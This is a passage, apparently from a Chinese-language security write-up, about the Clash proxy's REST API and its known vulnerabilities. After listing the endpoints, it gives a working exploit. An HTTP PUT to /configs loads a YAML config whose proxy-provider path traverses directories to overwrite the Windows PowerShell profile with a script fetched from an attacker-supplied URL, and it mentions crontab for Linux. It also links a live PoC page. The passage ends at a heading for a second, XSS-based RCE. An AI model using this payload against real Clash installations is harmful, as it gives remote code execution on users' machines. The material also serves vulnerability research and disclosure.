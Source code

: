 - `/version`: Clash 的版本
- `/configs`: Clash 的配置文件
- `/rules`: Clash 的规则文件
- `/proxies`: Clash 的代理列表 (可惜, 这里不会返回 secret, 不然就可以直接拿到代理了)
- `/providers`: Clash 的 Provider 列表
- `/logs`: Clash 的日志, WebSocket

## Exploitation

Clash / CFW 主要有两个已知的漏洞:

### Arbitrary File Write

在较低版本的 Clash / Clash-meta 中, 配置文件中 Provider 的 `path` 字段可以目录穿越, 从而写入任意文件. 在 Linux 下, 可以写 crontab RCE; 在 Windows 下可以写 Powershell 启动脚本, 或者注入什么 Python 啊之类的 lib, 实现 RCE. (Side-Effect: Clash 的原来的配置文件就没啦, 需要在 CFW 里面手动切换一下 Profile 来更新)

```http
PUT /configs HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json

{
    payload: "{payload}"
}
```

Payload 参考这个 ([clash-rce.pages.dev](https://clash-rce.pages.dev/evil.yaml) **这个页面本身就是 PoC!!! 在确定自己 Clash 没事之前别点!!! 点进去会跳转 Baidu, 建议 F12 抓一下或者 curl**):

```yml
mixed-port: 7890
allow-lan: true
mode: direct
log-level: debug
proxy-groups: 
  - name: Ouch!!!
    type: select
    use:
      - What
proxy-providers:
  What:
    type: http
    url: '{Your RCE script url}'
    interval: 36000
    # Arbitrary File Write here
    path: ../../Documents/WindowsPowerShell/Microsoft.PowerShell_profile.ps1
    healthcheck:
      enable: false
      interval: 600
      url: http://www.gstatic.com/generate_204
```

### CFW XSS RCE
